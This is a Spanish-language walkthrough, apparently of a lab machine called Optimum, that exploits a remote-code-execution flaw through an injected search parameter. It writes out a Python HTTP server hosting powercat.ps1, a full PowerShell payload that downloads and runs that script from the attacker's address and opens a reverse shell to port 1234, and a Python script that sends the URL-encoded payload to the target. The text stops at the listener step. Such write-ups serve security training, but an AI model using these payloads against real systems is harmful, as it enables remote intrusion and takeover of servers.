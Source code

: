 
1 - Lo primero que tenemos que hacer es montarnos un servidor para compartirnos la herramienta, en este caso voy a utilizar python.

```bash
❯ ls
 powercat.ps1
❯ python3 -m http.server --bind 10.10.16.5
Serving HTTP on 10.10.16.5 port 8000 (http://10.10.16.5:8000/) ...

```
<br>
2 - Al tener RCE vamos a descargarnos el archivo en la máquina víctima haciendo uso de la powershell y ejecutarlo para obtener la reverse shell:

- La ruta de la powershell que utilizaremos es la siguiente: `c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe`.

- Usaremos la siguiente función para descargarnos un archivo en powershell: `IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.5:8000/powercat.ps1')`.

- Para obtener la revshell con powercat utilizamos la siguiente sintaxis: `powercat -c 10.10.16.5 -p 1234 -e cmd`.

- El payload total quedaría tal que así: `c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.5:8000/powercat.ps1');powercat -c 10.10.16.5 -p 1234 -e cmd`.

<br>
3 - Modificamos el script para que nos tramite la petición gracias a la librería `requests`:

```python
❯ cat RCE_Optimum.py
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: RCE_Optimum.py
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ import urllib3
   2   │ import urllib.parse
   3   │ import requests
   4   │ 
   5   │ Payload = input("Introduzca el payload deseado: ")
   6   │ Payload_url_encoding = urllib.parse.quote(Payload)
   7   │ 
   8   │ 
   9   │ RCE = f"http://10.10.10.8:80/?search=%00[{.+exec|{Payload_url_encoding}.}]" # SUSTITUIR AMBOS [] POR {}
  10   │ 
  11   │ resp = requests.get(RCE)
  12   │ 
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```
<br>
4 - Nos ponemos por escucha con `nc` utilizand `rlwrap` para obtener mayor interactividad con la consola:
